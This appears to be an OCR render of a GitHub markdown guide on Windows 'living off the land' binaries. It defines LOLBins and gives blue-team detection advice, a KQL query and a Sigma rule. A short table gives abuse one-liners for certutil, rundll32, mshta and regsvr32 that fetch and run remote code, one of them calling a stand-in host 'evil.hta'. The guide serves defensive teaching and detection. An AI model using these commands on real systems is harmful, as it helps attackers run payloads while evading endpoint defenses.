 
---

### ✅ `living-off-the-land.md`

```markdown
# 🛠️ Living off the Land Binaries (LOLBins)

## 🧠 What is it?

LOLBins are **legitimate, trusted Windows binaries** that attackers use for malicious purposes — like downloading payloads, executing code, or evading detection.

Because these tools are signed by Microsoft, they’re **often whitelisted** by AV/EDR.

> It’s like breaking into a bank using a police uniform. You're trusted — so no one questions you.

---

## ✅ Common LOLBins

| Tool         | Abuse Example                                           |
|--------------|---------------------------------------------------------|
| `certutil`   | Download files: `certutil -urlcache -split -f http://...` |
| `rundll32`   | Execute script: `rundll32.exe javascript:"..."`          |
| `mshta`      | Run malicious HTA files: `mshta http://evil.hta`         |
| `regsvr32`   | Load remote scripts: `regsvr32 /i:http://... scrobj.dll` |

---

## 🛡️ Detection Ideas (Blue Team)

- Monitor command-line use of these tools with network activity
- Detect use of flags like `/i`, `-f`, or script content
- Look for system binaries spawning non-standard processes

---

## 🔍 KQL Detection

```kql
DeviceProcessEvents
| where FileName in~ ("certutil.exe", "rundll32.exe", "mshta.exe", "regsvr32.exe")
| where ProcessCommandLine contains "http"


📦 Sigma Rule

title: LOLBins Executing Remote Payloads
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith:
      - '\\certutil.exe'
      - '\\rundll32.exe'
      - '\\mshta.exe'
      - '\\regsvr32.exe'
    CommandLine|contains: "http"
  condition: selection
level: high
tags:
  - attack.defense_evasion
  - attack.t1218




